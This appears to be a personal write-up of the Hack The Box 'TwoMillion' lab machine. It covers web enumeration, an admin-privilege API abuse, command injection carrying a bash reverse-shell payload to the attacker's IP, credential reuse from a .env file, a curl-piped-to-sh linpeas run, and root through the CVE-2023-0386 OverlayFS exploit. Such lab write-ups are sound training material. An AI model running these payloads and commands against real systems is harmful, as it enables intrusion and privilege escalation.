# TwoMillion

<figure><figcaption></figcaption></figure>

## User Flag

### Enumeration

We do an initial nmap scan and we see that two ports are open and that the OS is Linux:

```console
toasty@parrot$ nmap -sV -oA twomil_init_scan 10.10.11.221
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 20:17 BST
Nmap scan report for 10.10.11.221
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kern
```

Let's do a script scan and see if we get more information:

```console
toasty@parrot$ nmap -sC -oA twomil_script_scan 10.10.11.221
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 20:19 BST
Nmap scan report for 10.10.11.221
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http
|_http-title: Did not follow redirect to http://2million.htb/
```

We get the public host keys from the SSH session and we also see that the webpage hosted on port 80 will redirect us to http://2million.htb

If we open up a webpage and attempt to go to http://10.10.11.221, depending on our browser we will get an error message saying that 2million.htb can not be found.

Let's add 2million.htb to our hosts file and then try going to `http://2million.htb`:

```console
toasty@parrot$ cat /etc/hosts
# Host addresses
127.0.0.1  localhost
toasty@parrot$ echo "10.10.11.221 2million.htb" | sudo tee -a /etc/hosts
toasty@parrot$ cat /etc/hosts
# Host addresses
127.0.0.1  localhost
10.10.11.221 2million.htb
```


### Fuzzing for Subdirs

I did an initial recon of the site, but it's best to go ahead and hit a subdirectory scan using something like `ffuf` or `gobuster`.

```console
toasty@parrot$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://2million.htb/FUZZ -mc all

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://2million.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
________________________________________________

.forward                [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 37ms]
.htaccess               [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 42ms]
_backup                 [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 45ms]
_catalogs               [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 45ms]
.perf                   [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 44ms]
_code                   [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 48ms]
.bash_history           [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 43ms]
_                       [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 43ms]
_borders                [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 46ms]
.ssh                    [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 46ms]
```

\


We get way too many results, so let's limit it down by filtering pages with a size of 162 out.

```console
toasty@parrot$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://2million.htb/FUZZ -mc all -fs 162

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://2million.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 162
________________________________________________

                        [Status: 200, Size: 64952, Words: 28274, Lines: 1243, Duration: 45ms]
404                     [Status: 200, Size: 1674, Words: 118, Lines: 46, Duration: 40ms]
api                     [Status: 401, Size: 0, Words: 1, Lines: 1, Duration: 40ms]
home                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 39ms]
invite                  [Status: 200, Size: 3859, Words: 1363, Lines: 97, Duration: 43ms]
login                   [Status: 200, Size: 3704, Words: 1365, Lines: 81, Duration: 35ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 35ms]
register                [Status: 200, Size: 4527, Words: 1512, Lines: 95, Duration: 42ms]
```

\


Now we have a list of subdirectories that we can go through. The API one could be interesting, but we are getting a 401 error so we should keep that in mind to check again if we find a user account.

Another good one I like to check is the robots.txt, and we can easily do that here with a curl command, however it looks like there is nothing to be found there.

```console
toasty@parrot$ curl http://2million.htb/robots.txt
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx</center>
</body>
</html>
```

\


### Invite Page

So let's take a look at that `/invite` page. It was a good first stop because the entire page is a simple text box and button. It even prompts you to 'Feel free to hack your way in :)'

<figure><figcaption></figcaption></figure>

I don't know what the format of this invite code is, so before I even think about a potential brute force let's poke around. I want to send a test code and capture it with ZAP to see what is being sent.

First attempt will be a classic 123 and in Firefox we immediately getting a pop up telling us we did wrong:

<figure><figcaption></figcaption></figure>

From ZAP:

<figure><figcaption></figcaption></figure>

We can see that it is using a POST request to /api/v1/invite/verify and it is sending the data in the format `code=$INPUT`

We can also see from the RESPONSE that the error we get a `200 OK` response with data returned: "Invite code is invalid!".

<figure><figcaption></figcaption></figure>

#### Spiderwebs and Javascript

While we are in ZAP, let's run a spider scan to crawl the page and see what we get back. After our scan finishes, we can see all the different pages the spider picked up, and the js folder catches my eye. There is 3 scripts in here but the one that immediately grabs my attention is the inviteapi.min.js script as that name indicates it has something to do with receiving or checking invite codes.

<figure><figcaption></figcaption></figure>

Let's look at that JS from the following url: `http://2million.htb/js/inviteapi.min.js`

There is a lot on the page but if we sift through this or prettify it, at the bottom there appears to be a bunch of different js keywords but the two named verifyInviteCode and makeInviteCode look a lot like functions names.

<figure><figcaption></figcaption></figure>

### Inviting Ourselves In

Since these functions are being loaded in this javascript file, we can interact with them from our browser based console. I open mine up by hitting `F12`. I begin typing `verifyInviteCode` and it auto-filled for me, that's a good sign. It requires a paramater 'code' so let's try 123 again. We get the same error as before "Invite code is invalid!" So this must be called whenever the "Sign Up" button is hit on the /invite page.\


<figure><figcaption></figcaption></figure>

We have a second function makeInviteCode() and this one does not appear to require a parameter, so I run it:

<figure><figcaption></figcaption></figure>

We get returned a data object that tells us the data is encrypted and we should decrypt it. The `enctype` is ROT13, so I went to cyberchef to decrypt quickly:

<figure><figcaption></figcaption></figure>

The decrypted output tells us we need to make a POST request to `/api/v1/invite/generate`. We can easily accomplish that using curl:

```console
toasty@parrot$ curl -X POST  http://2million.htb/api/v1/invite/generate
{"0":200,"success":1,"data":{"code":"RzJDQjYtTTFTNkEtMEhZQlktTktKTFc=","format":"encoded"}}
toasty@parrot$ echo -n 'RzJDQjYtTTFTNkEtMEhZQlktTktKTFc=' | base64 -d
G2CB6-M1S6A-0HYBY-NKJLW
```

The code was base64 encoded, so we also decoded it using our terminal as well. We are then taken to the registration page:

<figure><figcaption></figcaption></figure>

Now we finish up registering and we are a legit user on the site now! We have made it to a homepage!

<figure><figcaption></figcaption></figure>

### New User Access

Let's poke around a bit and see what we can find. Clicking through on some of the sidebars and browing I find 3 new sub directories: `access`, `rules`, and `changelog`. I don't immediately see anything that sticks out to me as I am browsing.

Looking back at our previous ffuf scan, now that we are an authenticated user I wonder if the `api` endpoint is now visible to us. Before we were getting a 401 Unauthorized error, but do standard users have access? Turns out we do!

<figure><figcaption></figcaption></figure>

### API Request to Admin

Let's follow this to the /api/v1

<figure><figcaption></figcaption></figure>

The user api's are cool and all but my eyes are drawn towards the bottom at the `admin` API endpoints. Let's do a GET `/api/v1/admin/auth` with our current session to see if it works. We can do that in ZAP:

<figure><figcaption></figcaption></figure>

We get: `"message":false` so we aren't admin, we knew that but that also means we can hit endpoints under the 'admin' section of the API. Let's toy around with that idea and mess with `/api/v1/admin/settings/update` to see if there is anything beneficial. It uses PUT requests so let's use our current session and send a blank PUT request to that endpoint.\
\


We get an 'invalid content type' error. Our original request did not have any data or a Content-Type but our responses have been json so we will go with that. Let's update our headers to include the json by using: `Content-Type: application/json`. Doing this yields a different error for us:

<figure><figcaption></figcaption></figure>

We see we are missing a parameter `email`, lets add some data to our request and send it again. We know it needs to be in JSON format. Once we send that with a blank email filled, we get ourselves a new error!

<figure><figcaption></figcaption></figure>

Now we are missing the `is_admin` parameter. Adding that in, we see that the value needs to be a 0 or a 1 (presuming 1 for admin.)

<figure><figcaption></figcaption></figure>

Now we can just submit that request using our account details:\
\


Now we are admin, and we can verify that using the `/api/v1/admin/auth` endpoint:

<figure><figcaption></figcaption></figure>

### Lost but then found

But what does being admin give us? I'll admit I got stuck here for a bit. I went back to all the pages to see if there was anything new for us. I reran all my fuzzers with my session key (although I would have gotten a 401 error to begin with, so this step was unnecesarry.) I tried combing through the .css and .js files to find something. I tried running nginxpwner (we saw that it was nginx from the nmap).

This is my first box I've attempted like this, so no shame in admitting I got my next steps from a write up by [0xdf](https://0xdf.gitlab.io/2023/06/07/htb-twomillion.html#command-injection). While I could beat my head against this for \~\~hours, I figured I would read up to the point I was at to find the next step. We hit all the same initial steps getting to this point so I knew I appeared to be on the right track, then they hit the `/admin/vpn/generate` api and I felt dumb.

It was staring me in the face the whole time, now that we had our admin access we could POST to that api endpoint. (and even do command injection, but we'll get there in a second)

### Admin API Powers

I do my first POST to the `/admin/vpn/generate` api and it gives me a missing username error:

<figure><figcaption></figcaption></figure>

Put in my username and re-run and we see that we are now getting a newly generated OpenVPN key.

<figure><figcaption></figcaption></figure>

So in my fury of testing before I looked up 0xdf's walkthrough I had found the endpoint to generate keys and tried to connect using them, but it was no luck. I thought the endpoint was just a distraction, but what 0xdf helped me realize in his post was that we needed to consider how the POST request was working. If the server was just dropping our input on the command line like `openvpn_generate.sh $username` then we could do a command injection on that.

### Command Injection > Reverse Shell

So let's try that by doing a test username of: `; whoami;`\
The first semicolon will end the first command then we put `whoami` as a simple command to see who the command is being ran as and the second semicolon to end.

<figure><figcaption></figcaption></figure>

Let's start nc on our host on port 9001 and then drop a reverse shell through the command injection. [Revshells](https://revshells.com) is a good place to go for this. We basically just replace the `whoami` part of our previous command to the reverse shell command and our payload will look like:\


`{"username":"; bash -c 'bash -i >& /dev/tcp/10.10.14.179/2550 0>&1' ;"}`

Here we see on my host after sending the above command we do get a connection back to our host.

```console
toasty@parrot$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.221] 43550
bash: cannot set terminal process group (1157): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ whoami
whoami
www-data
```

We then upgrade our shell to full TTY using one of the methods over at [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)\


```
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

### Su to Admin

Let's take a look around from here. We can see that we appear to be in /var/www/html and we can view the files in this directory:

```console
www-data@2million:~/html$ ls -al
total 56
drwxr-xr-x 10 root root 4096 Aug 18 20:20 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4096 Aug 18 20:20 VPN
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
```

At the top we see a .env file, usually used for environment variables and credentials. If we cat that file we get a password for an admin account on htb\_prod database.

```console
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Password re-use is a prevalent thing so before we go poking at databases, let's see if we can switch to the `admin` user:

```console
www-data@2million:~/html$ su -l admin
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ whoami
admin
```

### User.txt

Now we can poke around over here, and we see that there is a user.txt file. Let's grab that:

```console
admin@2million:~$ ls
user.txt
admin@2million:~$ cat user.txt 
fb6ae0******************
```

## Root Flag

Let's back all the way out, new day coming in. Let's try and ssh into the machine using the admin username/pass and see if we can get in:

```console
toasty@parrot$ ssh admin@2million.htb
admin@2million.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)

...SNIP

You have mail.
Last login: Fri Aug 18 20:27:54 2023 from 10.10.14.95
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ 
```

### Target Linux Enumeration

First thing I will do is run (LINPEAS)\[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS] to enumerate the box and see if we find anything. This could have been done with the previous user as well.

We need to transfer the linpeas script over to our target box so we can do that in three steps.

1. From Host: Get linpeas script off github
2. From Host: Begin http python server in same directory as linpeas script
3. From Target: curl the linpeas script and pipe it directly to shell so it runs in memory and then save output.

We can see this below:

#### HOST

```console
tosaty@parrot$ wget -q https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
toasty@parrot$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.221 - - [18/Aug/2023 21:37:03] "GET /linpeas.sh HTTP/1.1" 200 -
```

#### TARGET

```console
admin@2million:~$ curl http://10.10.14.231/linpeas.sh | sh > linpeas.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
 37  828k   37  310k    0     0   285k      0  0:00:02  0:00:01  0:00:01  285k. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . .  85  828k   85  710k    0     0   9525      0  0:01:29  0:01:16  0:00:13  9525find: ‘/var/lib/nginx/proxy’: Permission denied
find: ‘/var/lib/nginx/fastcgi’: Permission denied
find: ‘/var/lib/nginx/uwsgi’: Permission denied
find: ‘/var/lib/nginx/body’: Permission denied
admin@2million:~$ ls
linpeas.txt  snap  user.txt
```

Now that it's finished let's open up the `linpeas.txt` and read through it. It's a long file so I've only included a few screens:\


\


I did try going down the road of the interesting perms, but everything that I checked was patched.\
\
\


### You've got Mail

One thing that did stand out was the installed mail applications, because when we logged in to our SSH session it also told us that we had mail. We can see it is stored at /var/mail/admin so let's read that:

```console
admin@2million:~$ cat /var/mail/admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

The email is about a DB migration and patching some linux kernel CVEs. It gives us two by name OverlayFS/FUSE. So let's do some searching

### CVE-2023-0386

We find a few articles about different OverlayFS exploits, but the one from 2023 is the most recent and relevant. If you look back at our first linpeas screenshot, we see that the OS was last updated Sep 2022. [Article](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/)\


The vulnerability is a local privilege escalation vuln allowing anyone to escalate to root. Sounds like what we need.

The article also leads us to the POC by [xkaneiki](https://github.com/xkaneiki/CVE-2023-0386).\
I did have to follow a few extra pages to find this english translation of the [POC](https://github.com/sxlmnwb/CVE-2023-0386).

The same way we got our linpeas script over earlier, we basically replicate to get the code from our host to our victim server:

#### Transferring Exploit: HOST

```console
toasty@parrot$ wget -q https://github.com/xkaneiki/CVE-2023-0386/archive/refs/heads/main.zip
toasty@parrot$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.221 - - [18/Aug/2023 21:48:33] "GET /main.zip HTTP/1.1" 200 -

```

#### Receiving Exploit: TARGET

```console
admin@2million:~$ wget http://10.10.14.231/main.zip

main.zip            100%[===================>]  11.31K  --.-KB/s    in 0s      

2023-08-18 20:48:32 (75.7 MB/s) - ‘main.zip’ saved [11578/11578]
```

### Running Exploit

Now to follow the directions from the github, we will need two separate sessions SSH'd into the machine.

#### First Machine

We first need to unzip and then run `make all` to compile the code:

```console
admin@2million:~$ unzip main.zip
admin@2million:~$ cd CVE-2023-0386-main/
admin@2million:~/CVE-2023-0386-main$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
      |                     |     |
      |                     int   off_t {aka long int}
      |                    %ld
fuse.c:107:19: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘size_t’ {aka ‘long unsigned int’} [-Wformat=]
  107 |     printf("size %d\n", size);
      |                  ~^     ~~~~
      |                   |     |
      |                   int   size_t {aka long unsigned int}
      |                  %ld
fuse.c: In function ‘main’:
fuse.c:214:12: warning: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
  214 |     while (read(fd, content + clen, 1) > 0)
      |            ^~~~
      |            fread
fuse.c:216:5: warning: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
  216 |     close(fd);
      |     ^~~~~
      |     pclose
fuse.c:221:5: warning: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
  221 |     rmdir(mount_path);
      |     ^~~~~
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
```

still on the first machine, we then run:

```console
admin@2million:~/CVE-2023-0386-main$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0

```

it may look like it is hanging or not runnning, that is fine just move over to the second ssh session.

#### Second Machine

```console
admin@2million:~$ cd CVE-2023-0386-main/
admin@2million:~/CVE-2023-0386-main$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Aug 18 20:52 .
drwxrwxr-x 6 root   root     4096 Aug 18 20:52 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:~/CVE-2023-0386-main# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)

```

### Root.Txt

We can browse around and our root flag is at /root/root.txt:

```console
root@2million:~# cat /root/root.txt 
40540d8****************8
```

This was a very fun first experience trying a HTB machine, I hope to have more write-ups in the future and eventually move on to active machines.
